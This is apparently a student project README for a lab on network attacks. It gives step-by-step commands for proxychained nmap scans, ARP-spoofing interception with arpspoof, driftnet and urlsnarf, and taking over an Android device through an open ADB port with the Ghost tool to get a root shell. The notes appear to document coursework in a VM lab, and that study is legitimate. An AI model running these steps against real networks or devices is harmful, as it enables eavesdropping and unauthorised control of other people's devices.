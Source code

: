 ## Repo for scripts and notes for ADT project

1. Proxy chaining

    
  ```
  sudo apt-get install proxychains
  ```
 
  - copy `proxychains.conf` into `/etc/proxychains.conf`

  - when running `nmap` use proxy chaining as follows:
    
  ```
  sudo proxychains nmap -sT SOME_IP_ADDRESS
  ```

2. Port scanning
  
  1. Make sure if using 2 VM machines they are connected to Internet using
     Bridge (Automatic) option
  2. At first run `sudo netdiscover` to find all IP address
    ![](netdiscover_result.png)

  3. For all IP address run `./detect_os.sh netdiscover_results.txt out.txt` to detect OS
  ```
    Read data files from: /usr/bin/../share/nmap
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sun Nov  1 14:41:26 2020 -- 1 IP address (1 host up) scanned in 40.54 seconds
    # Nmap 7.80 scan initiated Sun Nov  1 14:41:26 2020 as: nmap -T4 -A -v --append-output -oN out.txt 192.168.0.21
    Nmap scan report for 192.168.0.21
    Host is up (0.00057s latency).
    Not shown: 999 closed ports
    PORT     STATE SERVICE  VERSION
    5555/tcp open  freeciv?
    | fingerprint-strings: 
    |   adbConnect: 
    |     CNXN
    |_    device::ro.product.name=android_x86;ro.product.model=VMware Virtual Platform;ro.product.device=x86;features=stat_v2,cmd,shell_v2
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port5555-TCP:V=7.80%I=7%D=11/1%Time=5F9EBB17%P=x86_64-pc-linux-gnu%r(ad
    SF:bConnect,98,"CNXN\x01\0\0\x01\0\x10\0\0\x80\0\0\0\xfc/\0\0\xbc\xb1\xa7\
    SF:xb1device::ro\.product\.name=android_x86;ro\.product\.model=VMware\x20V
    SF:irtual\x20Platform;ro\.product\.device=x86;features=stat_v2,cmd,shell_v
    SF:2");
  ```

3. Man in the Middle attack
  - Enable packet forwarding `sysctl -w net.ipv4.ip_forward=1` and `sysctl -w net.ipv6.conf.all.forwarding=1`
  - Intercept packages from victim: `arpspoof -i [Network Interface Name] -t [Target IP] [Router IP]`
    to check [Network Interface Name] and [Router IP] run `ip route show`, the final command should be similar to `arpspoof -i eth0 -t 192.168.0.17 192.168.0.1`
  - Intercept package from router: `arpspoof -i [Network Interface Name] -t [Router IP] [Target IP]`
  - Sniff images from victim navigation: `driftnet -i [Network Interface Name]`
  - Sniff URLs information from victim navifation: `urlsnarf -i [Network
    Interface Name]`
  - Finally disable packet forwarding: `sysctl -w net.ipv4.ip_forward=0` and `sysctl -w net.ipv6.conf.all.forwarding=0`
 

4. Wireshark
  - Let's say we want to know what our victim is doing on specific page (and we know IP of that server). We can filter our results by _source_ and destination_: 

    ![](images/wireshark_example.png)

---

## Hacking into Android device using port 5555 (ADB)

1. Clone repo https://github.com/EntySec/ghost
2. Install ghost and run it
3. `connect IP_TARGET`
4. Play with victim e.g.:
  - run some apps: `launch com.android.calculator2`
  - take a device screenshot: `screenshot`
  - reboot device: `reboot`
  - run shell: `shell` -> `su` to get root privilege
